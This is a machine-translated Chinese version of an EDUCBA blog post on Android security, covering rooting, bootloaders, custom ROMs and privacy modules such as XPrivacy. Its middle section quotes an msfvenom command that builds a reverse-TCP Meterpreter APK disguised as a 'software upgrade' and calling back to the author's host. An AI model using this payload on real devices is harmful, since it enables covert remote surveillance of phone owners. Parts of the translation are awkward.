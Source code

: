 # 机器人

> 原文：<https://www.educba.com/android/>

![Android](img/fdc5701d9943c74af4cb2563bca065ef.png)



## Android 简介

在本主题中，我们将了解 Android 和开源安全(OS)。 [Android](https://www.educba.com/software-development/courses/android-developer-course/ "ANDROID - Complete Practical Training on Android") 是一个开源平台。它很像 Linux，但与 Linux 还是有很大的不同。与 Android 相比，Linux 太成熟了。这是 Chetan Nayak，欢迎来到我的下一个关于开源网络安全的博客。我写这篇博客是假设我们大多数人会使用 Android K，即 Kitkat 或 Android L，即 Lollipop。

原因是 Gingerbread 和 Jellybean 有很多开源安全问题，我不能在这篇博客中讨论。所以，也许下次当我更深入地研究它的旧版本时，我会讨论它。所以，从现在开始，让我们坚持 KitKat 和 Lollipop。

<small>网页开发、编程语言、软件测试&其他</small>

它是为开发人员设计的。安全控制旨在减轻开发人员的负担。精通安全的开发人员可以轻松使用并依赖灵活的安全控制。不太熟悉安全性的开发人员将受到安全默认值的保护。

### 开始

直到 2013 年第二季度，我才开始接触 android，当时我有了第一部 Android 手机，那是索尼 Xperia L(基于当时的 4.2.2 版本)。见鬼，我甚至讨厌安卓系统，因为它太落后了，尤其是三星设备。我当时甚至考虑过买一台 Windows Lumia，但幸运的是，我以前玩了很多游戏，我不得不买 Xperia L，因为这款电池是防延迟的。它有大约 1g 的内存和 Adreno 305。酷到可以运行任何东西。

在玩了许多像 NOVA3 和 ModernCombat4 这样的游戏后，我在一个月内就厌倦了那个牢房。我知道它是基于 Linux 的，我想在其上做一些修改。我开始阅读关于定制的书籍，并了解了什么叫做“扎根”。因为我在 Linux 中有很好的反手击球，生根对我来说不是问题。在 XDA 的帮助下，我成功地扎根于我的细胞。

但是我突然想到了什么。我的手机在开机后一重启，就开始引导循环(永远卡在引导屏幕上)。我甚至不知道 android 中的 bootloader 是什么。所以，我无能为力。这只是一个月，我买了我的新细胞，我的细胞现在软砖。我总是读到生根是危险的，但我不知道它会砖我的细胞。但我错了。随着我不断地阅读关于生根的一篇又一篇文章，我开始知道生根不会阻塞你的手机。

root 只是类似于电脑中的和 Admin 访问(其实是系统访问，但是我写的是 Admin 访问，所以对于 noobs 来说很容易理解。).这意味着生根将永远不会砖你的手机。是引导程序阻塞了我的手机。对于不知道 bootloader 是；bootloader 类似于 windows 中的 BIOS。(如果你不知道 BIOS 是什么，那么你根本就不应该读《思考安全》。)Bootloader 或 Hboot(这是它在 android 中的叫法)是你启动你的 [Android 设备](https://www.educba.com/android-device-manager-tracker/ "How Android Device Manager Finds Your Lost Phone?")时运行的第一件事。

它封装了引导[操作系统](https://www.educba.com/android-operating-system/ "Structure of an Android Operating System")内核的指令，其中大部分都是专门为运行自己的调试或修改环境而设计的。

### Android 的安全检查点

把 bootloader 想象成你的设备的安全检查点。如果你突破了这个关卡，你将会失去手机上的所有东西。所以，我认为这是一个很好的安全特性。因为如果你丢了手机，有人试图获得 root 权限绕过锁(假设你已经用 pin 或密码锁定了你的设备。)，然后他将强制解锁引导程序，这将导致删除您手机上的数据。

所以，你不用担心有人误用。所以，ROMS 习俗也是如此。rom 是基于专为您的硬件架构设计的 Android 版本的操作系统。所以，如果你在 XDA 上检查，对于你的手机，你会有 n 个定制的 rom，其中一些最著名的是 Cyanogen Mod ROMs，它们已经预先根深蒂固，并带有预定义的定制设置。

### Android 的安全覆盖

你现在可能在想，你有一个安全的手机。但是我在这里再次证明你是错的，这就是这篇博客的全部意义。到 2014 年第二季度，人们已经开始为 Android 开发漏洞和 rootkitss，这些漏洞和 rootkit 甚至可以在不解锁引导加载程序的情况下扎根你的手机。

还不够吓人？让我告诉你最危险的部分。他们甚至可以在里面安装木马。所以，即使警察能追踪到你的手机，你也能拿回你的手机，他们仍然很有可能看到你在手机上做的一切。这是我在实际环境中尝试过的实验。

我在这次攻击中使用了 Metasploit。我做的是我创建了一个木马并安装在目标手机上。这是一个简单的 apk 文件，我将其命名为软件升级。所以，如果用户只是一个普通人，只有一点点关于安全的信息，那么他甚至不敢删除它。我确定，只要互联网被激活，我创建的恶意软件就会自动执行，并连接回我在主机上的远程端口。

攻击使用了以下命令(Metasploit 是一种渗透测试软件，有助于检查平台或特定设备上的漏洞。)

我的主机 IP 地址:192.168.xx.xx

我的主机端口(要连接回去):445

`>>>msfvenom`

> > > MSF venom Android/meter preter/reverse _ TCP LHOST = 192.168 . xx . xx LPORT = 445 > software upgrade . apk

所以，这里我在我的电脑上创建了一个反向 TCP 通道。因此，每次在 android 上启动互联网时，我都会在我的 Kali 机器或安装了 Metasploit 的机器上打开一个 shell。

所以，现在你知道对一个你甚至不认识的人来说有多可怕了，他记录了你通过手机、其他联系人、WhatsApp 信息、短信、Viber 和 Skype 通话记录等进行的每一笔交易。如果这还不可怕，那我不知道什么才可怕。

### 覆盖范围

安全问题说够了。我们都知道其他平台都有安全问题。那我们怎么会安全呢？这并不完全正确。平台可以在某个特定点上变得安全，但在此之后，就要靠我们来确保它保持安全。在安全领域有一句名言:

**《社会工程:因为人类的愚蠢没有补丁》**

很久以前我在看一个 DefCon 的会议时听到过这句话。

当没有技术漏洞可以利用的时候，你应该尝试去黑人类。我指的不是催眠之类的东西。我指的是社会工程。你可以阅读我的另一篇博客“网络安全在我们日常生活中的重要性”来了解更多信息。

### Android 的核心安全功能

此外，社会工程，这是一些只有你聪明才能处理的事情；有很多方法可以让你以一种安全的方式开发 android 应用程序，以确保它保持安全。

以下是一些帮助您构建安全应用的核心安全特性:

*   Android 应用程序沙箱，将您的应用程序数据和代码执行与其他应用程序隔离开来。

*   一个应用程序框架，具有常见安全功能的健壮实现，如加密、权限和安全 IPC。

*   一种加密的文件系统，可用于保护丢失或被盗设备上的数据。

*   用户授予的权限，用于限制对系统功能和用户数据的访问。

*   应用程序定义的权限，用于基于每个应用程序控制应用程序数据。

### 如果你想要一个安全的环境，但你不是一个开发人员，你能做什么？

从 Android 5 开始，即 Lollipop，它提供了一个功能，用户可以添加多个配置文件和受限模式来使用手机和平板电脑。此外，如果你已经对手机进行了 rooted，那么在 Xposed 模块中有一些 android 应用程序，如 AppOps、Xprivacy 或 Privacy Guard，它们可以帮助你处理几乎所有事情。为此，您需要安装 Xposed 框架。

Xposed 框架允许 Xposed 模块工作。Xposed 模块允许您更改 Apk 文件和系统文件的行为，而无需安装不同的 ROM。撤销更改也很容易，所以风险很小，甚至不耗时，因为不需要刷新多个 ROMS、内核及其错误修复。

Xprivacy，Privacy Guard 和 AppOps 是 exposed 的模块，允许你通过选择哪个应用程序应该访问什么，如互联网，键盘，sd 卡，root 访问和许多其他东西，来使你的 android 安全。您甚至可以只禁止访问特定的服务，并为此创建用户定义的模板。我呢，更倾向于选择 Xprivacy。但是这里有一些信息或差异，如果你不同意在以上三者中选择。

#### 阿彭斯

这最初是谷歌在 Android 4.3 中推出的。(这是我不支持的主要原因。我不信任谷歌。称之为偏执狂，但谷歌会追踪你做的一切。我不需要有人跟踪我做的每一件事，但是如果你信任谷歌，那就去做吧。).AppOps 的主要限制是，谷歌只允许你屏蔽那些它希望你屏蔽的应用。

这意味着，如果你想屏蔽与谷歌相关的应用，如 Play Services(实际上会消耗你正常内存、电池和数据(互联网)的 50%以上)，你将无法做到。这是我讨厌谷歌的又一个原因。所以，我相信 AppOps 对我来说只不过是一个恶意软件。(但这只是我的想法，如果你真心信任谷歌独家，就不会这样)

#### 隐私卫士

隐私卫士是一个简单易用的界面，用来代替 Cyanogen Mod 的 AppOps。如果你是一个初学者，那么我建议你使用这个，因为它只有一个开关按钮和自定义模板，关于哪种应用程序应该访问什么。如果有恶意软件像系统应用程序一样运行或模仿，这就不那么安全了。但这有助于你开始。

#### 表达方式

Xprivacy 是一个多功能的工具。但它是针对专家的。可以和瑞士军刀比。它什么都有，可以让你的手机在所有其他方面都安全，但如果你不知道你在做什么，它只会搞乱你的手机，甚至阻止应用程序启动。您还可以限制对系统应用程序的访问。这个是我个人比较倾向于选择的。

除了上述模块之外，Xposed 中甚至还有其他模块，如 Lightening Firewall 或 BootManager，可以帮助限制特定应用程序的互联网访问，并在重启手机时阻止应用程序与系统一起启动。

所以，这将是这个博客。出于安全考虑，你当然可以访问 XDA 网站，或者成为该网站的会员，该网站可以向你提供更多的隐私信息。

### 推荐文章

这是 Android 的指南。这里我们讨论了 Android 的基本概念、安全检查点和核心安全功能。您也可以浏览我们推荐的其他文章，了解更多信息——

1.  [Android 面试问题–十大有用问题](https://www.educba.com/android-interview-questions/)
2.  [8 款适用于 Android 的 Siri 替代品](https://www.educba.com/siri-alternatives/)
3.  [28 条最佳建议&amp；Android 应用开发工具的诀窍](https://www.educba.com/android-apps-development-tools/)
4.  [Android 开发职业](https://www.educba.com/careers-in-android-development/)





